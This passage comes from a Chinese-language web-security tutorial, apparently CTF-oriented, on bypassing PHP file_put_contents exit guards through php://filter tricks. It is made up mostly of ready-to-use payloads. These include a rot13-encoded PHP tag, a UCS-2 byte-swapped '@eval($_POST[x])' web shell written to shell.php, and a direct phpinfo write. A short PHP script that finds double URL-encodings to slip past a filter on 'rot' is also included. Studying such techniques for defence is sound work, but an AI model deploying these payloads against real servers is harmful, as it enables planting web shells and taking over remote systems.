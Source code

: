 ```url
content=php://filter/string.strip_rot13/resource=<?cuc cucvasb();?>/../shell.php
```

如果rot被过滤了，可以采用rot的二次编码

这里有一个rot二次编码的脚本。

```php
<?php 
$char = 'r'; #构造r的二次编码 
for ($ascii1 = 0; $ascii1 < 256; $ascii1++) { 
    for ($ascii2 = 0; $ascii2 < 256; $ascii2++) { 
        $aaa = '%'.$ascii1.'%'.$ascii2; 
        if(urldecode(urldecode($aaa)) == $char){ 
            echo $char.': '.$aaa; 
            echo "\n"; 
        } 
    } 
} 
?> 
```



#### 三.convert.iconv.\*过滤

直接写过滤姿势了，因为原理前面讲过了。这里写的ucs-2，其实4也可以。

```url
file=php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSx[)]?;;>/resource=shell.php
```



#### <mark style="color:orange;">③</mark><mark style="color:orange;">`file_put_contents($filename,$content."\nxxxxxxx");`</mark>

没有结束，直接输入就行了。

```url
filename=shell.php&content=<?php phpinfo();?>
```



## <mark style="color:red;background-color:orange;">参考门：</mark>

{% embed url="https://www.freebuf.com/articles/web/182280.html" %}

{% embed url="https://www.anquanke.com/post/id/248627#h3-1" %}

{% embed url="https://xiaolong22333.top/archives/114/" %}





欢迎大家给我留言，🤭

